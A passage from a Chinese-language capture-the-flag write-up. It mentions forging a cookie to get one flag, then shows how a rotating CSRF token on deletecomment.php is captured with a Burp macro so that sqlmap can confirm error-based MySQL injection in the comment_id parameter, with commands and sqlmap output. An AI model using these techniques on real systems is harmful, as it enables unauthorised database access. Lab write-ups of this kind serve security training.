 伪造 cookie 刷新后拿到 flag: OrganicShantyAbsent505

## 0x03 第三题 Nonce-Sense

* * *

说明:

Flag 在数据库里。

解题：

用上面用户的 cookie 登录后逛了一下，发现用户可以在自己的 blog 下面删除评论，这个功能是通过 ajax POST 到 deletecomment.php 实现的，提交的内容里有 CSRF token。

CSRF token 会被最先检查，如果不对的话会直接返回错误，这样导致对提交的参数进行自动化测试会比较困难，好在 burp 提供了宏这个功能，可以让我们自动采集 CSRF token 然后提交。

每次 POST 到 deletecomment.php 这个页面都会返回一个不同的 CSRF token，下次提交的时候必须带着才行。

我们可以用 burp 里的 session handler 中的宏来抓取，我建议你先读一下这篇:

http://labs.asteriskinfosec.com.au/fuzzing-and-sqlmap-inside-csrf-protected-locations-part1/

通过 SQL intruder 插件，很快就可以发现在 comment_id 参数中存在 SQL 注入。

```
{"result":false,"error":"You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '\"' at line 1","csrf":"43b461afdd56f52f"} 
```

找到注入点后，拿上顺手的 SQLMAP 和 Burp 的 proxy session 宏结合起来，参考这里:

http://labs.asteriskinfosec.com.au/fuzzing-and-sqlmap-inside-csrf-protected-locations-part2/

把 sqlmap 的请求都保存到文件里，并且确保更新 session cookie

```
#> sqlmap r /root/sqlweb3headers proxy=http://localhost:8080 p comment_id
...
[17:15:55] [WARNING] target URL is not stable. sqlmap will base the page
comparison on a sequence matcher. If no dynamic nor injectable parameters are
detected, or in case of junk results, refer to user's manual paragraph 'Page
comparison' and provide a string or regular expression to match on
how do you want to proceed? [(C)ontinue/(s)tring/(r)egex/(q)uit] c
...
[17:16:39] [INFO] heuristic (basic) test shows that POST parameter 'comment_id'
might be injectable (possible DBMS: 'MySQL')

...
heuristic (parsing) test showed that the backend DBMS could be 'MySQL'. Do you
want to skip test payloads specific for other DBMSes? [Y/n] y
do you want to include all tests for 'MySQL' extending provided level (1) and risk
(1)? [Y/n] n
...
[17:17:13] [INFO] POST parameter 'comment_id' is 'MySQL >= 5.0 AND errorbased
WHERE or HAVING clause' injectable
...
POST parameter 'comment_id' is vulnerable. Do you want to keep testing the others
(if any)? [y/N] n 
```
